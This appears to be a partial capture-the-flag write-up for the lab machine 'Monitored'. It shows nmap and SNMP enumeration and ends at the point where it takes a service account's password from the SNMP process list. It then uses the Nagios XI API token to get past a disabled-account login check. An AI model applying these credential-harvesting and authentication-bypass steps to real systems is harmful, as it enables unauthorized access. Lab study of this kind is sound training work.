- Machine Name: Monitored
- OS Type: Linux
- Difficulty: Medium

### Port Scanning - Service &  Version Enumeration

```powershell
# Nmap 7.95 scan initiated Thu Jun 26 18:31:15 2025 as: /usr/lib/nmap/nmap -sVC --open -p- -oN initial/nmap.out -vv 10.10.11.248
Nmap scan report for 10.10.11.248
Host is up, received reset ttl 63 (0.21s latency).
Scanned at 2025-06-26 18:31:16 IST for 87s
Not shown: 65339 closed tcp ports (reset), 191 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE    REASON         VERSION
22/tcp   open  ssh        syn-ack ttl 63 OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 61:e2:e7:b4:1b:5d:46:dc:3b:2f:91:38:e6:6d:c5:ff (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC/xFgJTbVC36GNHaE0GG4n/bWZGaD2aE7lsFUvXVdbINrl0qzBPVCMuOE1HNf0LHi09obr2Upt9VURzpYdrQp/7SX2NDet9pb+UQnB1IgjRSxoIxjsOX756a7nzi71tdcR3I0sALQ4ay5I5GO4TvaVq+o8D01v94B0Qm47LVk7J3mN4wFR17lYcCnm0kwxNBsKsAgZVETxGtPgTP6hbauEk/SKGA5GASdWHvbVhRHgmBz2l7oPrTot5e+4m8A7/5qej2y5PZ9Hq/2yOldrNpS77ID689h2fcOLt4fZMUbxuDzQIqGsFLPhmJn5SUCG9aNrWcjZwSL2LtLUCRt6PbW39UAfGf47XWiSs/qTWwW/yw73S8n5oU5rBqH/peFIpQDh2iSmIhbDq36FPv5a2Qi8HyY6ApTAMFhwQE6MnxpysKLt/xEGSDUBXh+4PwnR0sXkxgnL8QtLXKC2YBY04jGG0DXGXxh3xEZ3vmPV961dcsNd6Up8mmSC43g5gj2ML/E=
|   256 29:73:c5:a5:8d:aa:3f:60:a9:4a:a3:e5:9f:67:5c:93 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBbeArqg4dgxZEFQzd3zpod1RYGUH6Jfz6tcQjHsVTvRNnUzqx5nc7gK2kUUo1HxbEAH+cPziFjNJc6q7vvpzt4=
|   256 6d:7a:f9:eb:8e:45:c2:02:6a:d5:8d:4d:b3:a3:37:6f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB5o+WJqnyLpmJtLyPL+tEUTFbjMZkx3jUUFqejioAj7
80/tcp   open  http       syn-ack ttl 63 Apache httpd 2.4.56
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: Did not follow redirect to https://nagios.monitored.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
389/tcp  open  ldap       syn-ack ttl 63 OpenLDAP 2.2.X - 2.3.X
443/tcp  open  ssl/http   syn-ack ttl 63 Apache httpd 2.4.56 ((Debian))
|_http-title: Nagios XI
| tls-alpn: 
|_  http/1.1
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.56 (Debian)
| ssl-cert: Subject: commonName=nagios.monitored.htb/organizationName=Monitored/stateOrProvinceName=Dorset/countryName=UK/emailAddress=support@monitored.htb/localityName=Bournemouth
| Issuer: commonName=nagios.monitored.htb/organizationName=Monitored/stateOrProvinceName=Dorset/countryName=UK/emailAddress=support@monitored.htb/localityName=Bournemouth
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-11-11T21:46:55
| Not valid after:  2297-08-25T21:46:55
| MD5:   b36a:5560:7a5f:047d:9838:6450:4d67:cfe0
| SHA-1: 6109:3844:8c36:b08b:0ae8:a132:971c:8e89:cfac:2b5b
| -----BEGIN CERTIFICATE-----
| MIID/zCCAuegAwIBAgIUVhOvMcK6dv/Kvzplbf6IxOePX3EwDQYJKoZIhvcNAQEL
| BQAwgY0xCzAJBgNVBAYTAlVLMQ8wDQYDVQQIDAZEb3JzZXQxFDASBgNVBAcMC0Jv
| dXJuZW1vdXRoMRIwEAYDVQQKDAlNb25pdG9yZWQxHTAbBgNVBAMMFG5hZ2lvcy5t
| b25pdG9yZWQuaHRiMSQwIgYJKoZIhvcNAQkBFhVzdXBwb3J0QG1vbml0b3JlZC5o
| dGIwIBcNMjMxMTExMjE0NjU1WhgPMjI5NzA4MjUyMTQ2NTVaMIGNMQswCQYDVQQG
| EwJVSzEPMA0GA1UECAwGRG9yc2V0MRQwEgYDVQQHDAtCb3VybmVtb3V0aDESMBAG
| A1UECgwJTW9uaXRvcmVkMR0wGwYDVQQDDBRuYWdpb3MubW9uaXRvcmVkLmh0YjEk
| MCIGCSqGSIb3DQEJARYVc3VwcG9ydEBtb25pdG9yZWQuaHRiMIIBIjANBgkqhkiG
| 9w0BAQEFAAOCAQ8AMIIBCgKCAQEA1qRRCKn9wFGquYFdqh7cp4WSTPnKdAwkycqk
| a3WTY0yOubucGmA3jAVdPuSJ0Vp0HOhkbAdo08JVzpvPX7Lh8mIEDRSX39FDYClP
| vQIAldCuWGkZ3QWukRg9a7dK++KL79Iz+XbIAR/XLT9ANoMi8/1GP2BKHvd7uJq7
| LV0xrjtMD6emwDTKFOk5fXaqOeODgnFJyyXQYZrxQQeSATl7cLc1AbX3/6XBsBH7
| e3xWVRMaRxBTwbJ/mZ3BicIGpxGGZnrckdQ8Zv+LRiwvRl1jpEnEeFjazwYWrcH+
| 6BaOvmh4lFPBi3f/f/z5VboRKP0JB0r6I3NM6Zsh8V/Inh4fxQIDAQABo1MwUTAd
| BgNVHQ4EFgQU6VSiElsGw+kqXUryTaN4Wp+a4VswHwYDVR0jBBgwFoAU6VSiElsG
| w+kqXUryTaN4Wp+a4VswDwYDVR0TAQH/BAUwAwEB/zANBgkqhkiG9w0BAQsFAAOC
| AQEAdPGDylezaB8d/u2ufsA6hinUXF61RkqcKGFjCO+j3VrrYWdM2wHF83WMQjLF
| 03tSek952fObiU2W3vKfA/lvFRfBbgNhYEL0dMVVM95cI46fNTbignCj2yhScjIz
| W9oeghcR44tkU4sRd4Ot9L/KXef35pUkeFCmQ2Xm74/5aIfrUzMnzvazyi661Q97
| mRGL52qMScpl8BCBZkdmx1SfcVgn6qHHZpy+EJ2yfJtQixOgMz3I+hZYkPFjMsgf
| k9w6Z6wmlalRLv3tuPqv8X3o+fWFSDASlf2uMFh1MIje5S/jp3k+nFhemzcsd/al
| 4c8NpU/6egay1sl2ZrQuO8feYA==
|_-----END CERTIFICATE-----
5667/tcp open  tcpwrapped syn-ack ttl 63
Service Info: Host: nagios.monitored.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jun 26 18:32:43 2025 -- 1 IP address (1 host up) scanned in 88.54 seconds
```

### Port Scan - UDP Ports

```powershell
PORT    STATE         SERVICE  REASON
68/udp  open|filtered dhcpc    no-response
123/udp open          ntp      udp-response ttl 63
161/udp open          snmp     udp-response ttl 63
162/udp open|filtered snmptrap no-response
```

### Port Scanning - Service & Version : Port 161 (SNMP/UDP)

```powershell
PORT    STATE SERVICE REASON              VERSION
161/udp open  snmp    udp-response ttl 63 SNMPv1 server; net-snmp SNMPv3 server (public)
| snmp-netstat:
|   TCP  0.0.0.0:22           0.0.0.0:0
|   TCP  0.0.0.0:389          0.0.0.0:0
|   TCP  127.0.0.1:25         0.0.0.0:0
|   TCP  127.0.0.1:3306       0.0.0.0:0
|   TCP  127.0.0.1:5432       0.0.0.0:0
|   TCP  127.0.0.1:7878       0.0.0.0:0
|   TCP  127.0.0.1:40140      127.0.1.1:80
|   TCP  127.0.0.1:40152      127.0.1.1:80
|   UDP  0.0.0.0:68           *:*
|   UDP  0.0.0.0:123          *:*
|   UDP  0.0.0.0:161          *:*
|   UDP  0.0.0.0:162          *:*
|   UDP  10.10.11.248:123     *:*
|_  UDP  127.0.0.1:123        *:*
| snmp-sysdescr: Linux monitored 5.10.0-28-amd64 #1 SMP Debian 5.10.209-2 (2024-01-31) x86_64
|_  System uptime: 1d21h10m11.33s (16261133 timeticks)
| snmp-interfaces:
|   lo
|     IP address: 127.0.0.1  Netmask: 255.0.0.0
|     Type: softwareLoopback  Speed: 10 Mbps
|     Status: up
|     Traffic stats: 15.20 Mb sent, 15.20 Mb received
|   VMware VMXNET3 Ethernet Controller
|     IP address: 10.10.11.248  Netmask: 255.255.254.0
|     MAC address: 00:50:56:b0:48:f6 (VMware)
|     Type: ethernetCsmacd  Speed: 4 Gbps
|     Status: up
|_    Traffic stats: 105.67 Mb sent, 93.76 Mb received
| snmp-processes:
|   1:
|     Name: systemd
|     Path: /sbin/init
|   2:
|     Name: kthreadd
|   3:
|     Name: rcu_gp
|   4:
|     Name: rcu_par_gp
|   6:
|     Name: kworker/0:0H-events_highpri
|   8:
|     Name: mm_percpu_wq
|   9:
|     Name: rcu_tasks_rude_
|   10:
|     Name: rcu_tasks_trace
|   11:
|     Name: ksoftirqd/0
|   12:
|     Name: rcu_sched
|   13:
|     Name: migration/0
|   15:
|     Name: cpuhp/0
|   16:
|     Name: cpuhp/1
|   17:
|     Name: migration/1
|   18:
|     Name: ksoftirqd/1
|   20:
|     Name: kworker/1:0H-events_highpri
|   23:
|     Name: kdevtmpfs
|   24:
|     Name: netns
|   25:
|     Name: kauditd
|   26:
|     Name: khungtaskd
|   27:
|     Name: oom_reaper
|   28:
|     Name: writeback
|   29:
|     Name: kcompactd0
|   30:
|     Name: ksmd
|   31:
|     Name: khugepaged
|   49:
|     Name: kintegrityd
|   50:
|     Name: kblockd
|   51:
|     Name: blkcg_punt_bio
|   52:
|     Name: edac-poller
|   53:
|     Name: devfreq_wq
|   54:
|     Name: kworker/0:1H-kblockd
|   55:
|     Name: kswapd0
|   56:
|     Name: kthrotld
|   57:
|     Name: irq/24-pciehp
|   58:
|     Name: irq/25-pciehp
|   59:
|     Name: irq/26-pciehp
|   60:
|     Name: irq/27-pciehp
|   61:
|     Name: irq/28-pciehp
|   62:
|     Name: irq/29-pciehp
|   63:
|     Name: irq/30-pciehp
|   64:
|     Name: irq/31-pciehp
|   65:
|     Name: irq/32-pciehp
|   66:
|     Name: irq/33-pciehp
|   67:
|     Name: irq/34-pciehp
|   68:
|     Name: irq/35-pciehp
|   69:
|     Name: irq/36-pciehp
|   70:
|     Name: irq/37-pciehp
|   71:
|     Name: irq/38-pciehp
|   72:
|     Name: irq/39-pciehp
|   73:
|     Name: irq/40-pciehp
|   74:
|     Name: irq/41-pciehp
|   75:
|     Name: irq/42-pciehp
|   76:
|     Name: irq/43-pciehp
|   77:
|     Name: irq/44-pciehp
|   78:
|     Name: irq/45-pciehp
|   79:
|     Name: irq/46-pciehp
|   80:
|     Name: irq/47-pciehp
|   81:
|     Name: irq/48-pciehp
|   82:
|     Name: irq/49-pciehp
|   83:
|     Name: irq/50-pciehp
|   84:
|     Name: irq/51-pciehp
|   85:
|     Name: irq/52-pciehp
|   86:
|     Name: irq/53-pciehp
|   87:
|     Name: irq/54-pciehp
|   88:
|     Name: irq/55-pciehp
|   89:
|     Name: acpi_thermal_pm
|   90:
|     Name: ipv6_addrconf
|   100:
|     Name: kstrp
|   104:
|     Name: zswap-shrink
|   105:
|     Name: kworker/u5:0
|   150:
|     Name: ata_sff
|   151:
|     Name: mpt_poll_0
|   152:
|     Name: mpt/0
|   153:
|     Name: scsi_eh_0
|   154:
|     Name: scsi_tmf_0
|   155:
|     Name: scsi_eh_1
|   156:
|     Name: scsi_eh_2
|   157:
|     Name: scsi_tmf_2
|   158:
|     Name: scsi_tmf_1
|   160:
|     Name: scsi_eh_3
|   161:
|     Name: scsi_tmf_3
|   162:
|     Name: scsi_eh_4
|   163:
|     Name: scsi_tmf_4
|   164:
|     Name: scsi_eh_5
|   165:
|     Name: scsi_tmf_5
|   166:
|     Name: scsi_eh_6
|   167:
|     Name: scsi_tmf_6
|   168:
|     Name: scsi_eh_7
|   169:
|     Name: scsi_tmf_7
|   170:
|     Name: scsi_eh_8
|   171:
|     Name: scsi_tmf_8
|   172:
|     Name: scsi_eh_9
|   173:
|     Name: scsi_tmf_9
|   174:
|     Name: scsi_eh_10
|   175:
|     Name: scsi_tmf_10
|   176:
|     Name: scsi_eh_11
|   177:
|     Name: scsi_tmf_11
|   178:
|     Name: scsi_eh_12
|   179:
|     Name: scsi_tmf_12
|   180:
|     Name: scsi_eh_13
|   181:
|     Name: scsi_tmf_13
|   182:
|     Name: scsi_eh_14
|   183:
|     Name: scsi_tmf_14
|   184:
|     Name: scsi_eh_15
|   185:
|     Name: scsi_tmf_15
|   186:
|     Name: scsi_eh_16
|   187:
|     Name: scsi_tmf_16
|   188:
|     Name: scsi_eh_17
|   189:
|     Name: scsi_tmf_17
|   190:
|     Name: scsi_eh_18
|   191:
|     Name: scsi_tmf_18
|   192:
|     Name: scsi_eh_19
|   193:
|     Name: scsi_tmf_19
|   194:
|     Name: scsi_eh_20
|   195:
|     Name: scsi_tmf_20
|   196:
|     Name: scsi_eh_21
|   197:
|     Name: scsi_tmf_21
|   198:
|     Name: scsi_eh_22
|   199:
|     Name: scsi_tmf_22
|   200:
|     Name: scsi_eh_23
|   201:
|     Name: scsi_tmf_23
|   202:
|     Name: scsi_eh_24
|   203:
|     Name: scsi_tmf_24
|   204:
|     Name: scsi_eh_25
|   205:
|     Name: scsi_tmf_25
|   206:
|     Name: scsi_eh_26
|   207:
|     Name: scsi_tmf_26
|   208:
|     Name: scsi_eh_27
|   209:
|     Name: scsi_tmf_27
|   210:
|     Name: scsi_eh_28
|   211:
|     Name: scsi_tmf_28
|   212:
|     Name: scsi_eh_29
|   213:
|     Name: scsi_tmf_29
|   214:
|     Name: scsi_eh_30
|   215:
|     Name: scsi_tmf_30
|   216:
|     Name: scsi_eh_31
|   217:
|     Name: scsi_tmf_31
|   224:
|     Name: kworker/1:1H-kblockd
|   255:
|     Name: scsi_eh_32
|   256:
|     Name: scsi_tmf_32
|   285:
|     Name: jbd2/sda1-8
|   286:
|     Name: ext4-rsv-conver
|   324:
|     Name: systemd-journal
|     Path: /lib/systemd/systemd-journald
|   346:
|     Name: systemd-udevd
|     Path: /lib/systemd/systemd-udevd
|   388:
|     Name: cryptd
|   394:
|     Name: irq/16-vmwgfx
|   395:
|     Name: ttm_swap
|   396:
|     Name: card0-crtc0
|   398:
|     Name: card0-crtc1
|   400:
|     Name: card0-crtc2
|   402:
|     Name: card0-crtc3
|   403:
|     Name: card0-crtc4
|   404:
|     Name: card0-crtc5
|   405:
|     Name: card0-crtc6
|   406:
|     Name: card0-crtc7
|   526:
|     Name: VGAuthService
|     Path: /usr/bin/VGAuthService
|   527:
|     Name: vmtoolsd
|     Path: /usr/bin/vmtoolsd
|   528:
|     Name: auditd
|     Path: /sbin/auditd
|   530:
|     Name: laurel
|     Path: /usr/local/sbin/laurel
|     Params: --config /etc/laurel/config.toml
|   561:
|     Name: dhclient
|     Path: /sbin/dhclient
|     Params: -4 -v -i -pf /run/dhclient.eth0.pid -lf /var/lib/dhcp/dhclient.eth0.leases -I -df /var/lib/dhcp/dhclient6.eth0.leases eth0
|   569:
|     Name: audit_prune_tre
|   584:
|     Name: cron
|     Path: /usr/sbin/cron
|     Params: -f
|   585:
|     Name: dbus-daemon
|     Path: /usr/bin/dbus-daemon
|     Params: --system --address=systemd: --nofork --nopidfile --systemd-activation --syslog-only
|   587:
|     Name: rsyslogd
|     Path: /usr/sbin/rsyslogd
|     Params: -n -iNONE
|   588:
|     Name: systemd-logind
|     Path: /lib/systemd/systemd-logind
|   589:
|     Name: wpa_supplicant
|     Path: /sbin/wpa_supplicant
|     Params: -u -s -O /run/wpa_supplicant
|   597:
|     Name: cron
|     Path: /usr/sbin/CRON
|     Params: -f
|   607:
|     Name: sh
|     Path: /bin/sh
|     Params: -c sleep 30; sudo -u svc /bin/bash -c /opt/scripts/check_host.sh svc XjH7VCehowpR1xZB
|   729:
|     Name: avahi-autoipd
|     Path: avahi-autoipd: [eth0] sleeping
|   730:
|     Name: avahi-autoipd
|     Path: avahi-autoipd: [eth0] callout dispatcher
|   774:
|     Name: npcd
|     Path: /usr/local/nagios/bin/npcd
|     Params: -f /usr/local/nagios/etc/pnp/npcd.cfg
|   780:
|     Name: snmptrapd
|     Path: /usr/sbin/snmptrapd
|     Params: -LOw -f -p /run/snmptrapd.pid
|   787:
|     Name: snmpd
|     Path: /usr/sbin/snmpd
|     Params: -LOw -u Debian-snmp -g Debian-snmp -I -smux mteTrigger mteTriggerConf -f -p /run/snmpd.pid
|   800:
|     Name: agetty
|     Path: /sbin/agetty
|     Params: -o -p -- \u --noclear tty1 linux
|   802:
|     Name: ntpd
|     Path: /usr/sbin/ntpd
|     Params: -p /var/run/ntpd.pid -g -u 108:116
|   811:
|     Name: sshd
|     Path: sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups
|   853:
|     Name: shellinaboxd
|     Path: /usr/bin/shellinaboxd
|     Params: -q --background=/var/run/shellinaboxd.pid -c /var/lib/shellinabox -p 7878 -u shellinabox -g shellinabox --user-css Black on Whit
|   857:
|     Name: shellinaboxd
|     Path: /usr/bin/shellinaboxd
|     Params: -q --background=/var/run/shellinaboxd.pid -c /var/lib/shellinabox -p 7878 -u shellinabox -g shellinabox --user-css Black on Whit
|   862:
|     Name: slapd
|     Path: /usr/sbin/slapd
|     Params: -h ldap:/// ldapi:/// -g openldap -u openldap -F /etc/ldap/slapd.d
|   880:
|     Name: postgres
|     Path: /usr/lib/postgresql/13/bin/postgres
|     Params: -D /var/lib/postgresql/13/main -c config_file=/etc/postgresql/13/main/postgresql.conf
|   890:
|     Name: apache2
|     Path: /usr/sbin/apache2
|     Params: -k start
|   901:
|     Name: postgres
|     Path: postgres: 13/main: checkpointer
|   902:
|     Name: postgres
|     Path: postgres: 13/main: background writer
|   903:
|     Name: postgres
|     Path: postgres: 13/main: walwriter
|   904:
|     Name: postgres
|     Path: postgres: 13/main: autovacuum launcher
|   905:
|     Name: postgres
|     Path: postgres: 13/main: stats collector
|   906:
|     Name: postgres
|     Path: postgres: 13/main: logical replication launcher
|   956:
|     Name: mariadbd
|     Path: /usr/sbin/mariadbd
|   958:
|     Name: snmptt
|     Path: /usr/bin/perl
|     Params: /usr/sbin/snmptt --daemon
|   959:
|     Name: snmptt
|     Path: /usr/bin/perl
|     Params: /usr/sbin/snmptt --daemon
|   962:
|     Name: xinetd
|     Path: /usr/sbin/xinetd
|     Params: -pidfile /run/xinetd.pid -stayalive -inetd_compat -inetd_ipv6
|   986:
|     Name: nagios
|     Path: /usr/local/nagios/bin/nagios
|     Params: -d /usr/local/nagios/etc/nagios.cfg
|   987:
|     Name: nagios
|     Path: /usr/local/nagios/bin/nagios
|     Params: --worker /usr/local/nagios/var/rw/nagios.qh
|   988:
|     Name: nagios
|     Path: /usr/local/nagios/bin/nagios
|     Params: --worker /usr/local/nagios/var/rw/nagios.qh
|   989:
|     Name: nagios
|     Path: /usr/local/nagios/bin/nagios
|     Params: --worker /usr/local/nagios/var/rw/nagios.qh
|   990:
|     Name: nagios
|     Path: /usr/local/nagios/bin/nagios
|     Params: --worker /usr/local/nagios/var/rw/nagios.qh
|   1378:
|     Name: nagios
|     Path: /usr/local/nagios/bin/nagios
|     Params: -d /usr/local/nagios/etc/nagios.cfg
|   1392:
|     Name: sudo
|     Path: sudo
|     Params: -u svc /bin/bash -c /opt/scripts/check_host.sh svc XjH7VCehowpR1xZB
|   1393:
|     Name: bash
|     Path: /bin/bash
|     Params: -c /opt/scripts/check_host.sh svc XjH7VCehowpR1xZB
|   1448:
|     Name: exim4
|     Path: /usr/sbin/exim4
|     Params: -bd -q30m
|   124958:
|     Name: apache2
|     Path: /usr/sbin/apache2
|     Params: -k start
|   124959:
|     Name: apache2
|     Path: /usr/sbin/apache2
|     Params: -k start
|   124960:
|     Name: apache2
|     Path: /usr/sbin/apache2
|     Params: -k start
|   124961:
|     Name: apache2
|     Path: /usr/sbin/apache2
|     Params: -k start
|   124962:
|     Name: apache2
|     Path: /usr/sbin/apache2
|     Params: -k start
|   129329:
|     Name: apache2
|     Path: /usr/sbin/apache2
|     Params: -k start
|   140624:
|     Name: kworker/u4:0-flush-8:0
|   146129:
|     Name: kworker/0:1-events
|   151216:
|     Name: kworker/1:0-events
|   153044:
|     Name: kworker/0:2
|   155723:
|     Name: kworker/u4:2-flush-8:0
|   156468:
|     Name: kworker/1:1-events
|   156759:
|     Name: kworker/u4:1-flush-8:0
|   157529:
|     Name: apache2
|     Path: /usr/sbin/apache2
|     Params: -k start
|   157640:
|   157641:
|   157642:
|   157646:
|   157647:
|_  157656:
| snmp-info:
|   enterprise: net-snmp
|   engineIDFormat: unknown
|   engineIDData: 6f3fa7421af94c6500000000
|   snmpEngineBoots: 36
|_  snmpEngineTime: 1d21h10m11s
|_snmp-win32-software: ERROR: Script execution failed (use -d to debug)
Service Info: Host: monitored

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 19:10
Completed NSE at 19:10, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 19:10
Completed NSE at 19:10, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 19:10
Completed NSE at 19:10, 0.00s elapsed
Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 636.05 seconds
           Raw packets sent: 6 (319B) | Rcvd: 2 (108B)
	
```

## Enumeration

### Port 80/HTTP

let’s open website in firefox and 



we need to add this entry in /etc/hosts file

```powershell
echo "10.10.11.248 monitored.htb nagios.monitored.htb" | sudo tee -a /etc/hosts
```

and then refresh the page



clicking on “Access Nagios XI” we redirected to login page



from google i’ve found default username is used in Nagios XI - **`*nagiosadmin` ,*** i tried this as username and password but no luck

i searched for exploits related to nagios XI i found saveral exploits but most of them are authenticated, so possibly we need Credentials of the nagios XI

from the SNMP we found the credentials of `svc` user



let’s try to login as svc user, but this time we got the `user is disabled error`



further curiosity leads me towards the API documentation of the Nagios XI, and found authentication API [https://support.nagios.com/forum/viewtopic.php?t=58783]

```powershell
curl -X POST https://nagios.monitored.htb/nagiosxi/api/v1/authenticate -k -d "username=svc&password=test"
```



for testing i’ll be using wrong credentials for check if the API is valid or not 



after passing valid credentials we got the auth_token, the login is checking in database if the user is enabled or not, but what if we try to access the application directly using access_token

after some trial-error [`https://nagios.monitored.htb/nagiosxi/index.php?token=209b67524b12827ea2531549ee5435987f830d31`](https://nagios.monitored.htb/nagiosxi/index.php?token=209b67524b12827ea2531549ee5435987f830d31) 

i found that we need to pass authentication token as URL parameter **`token`** 

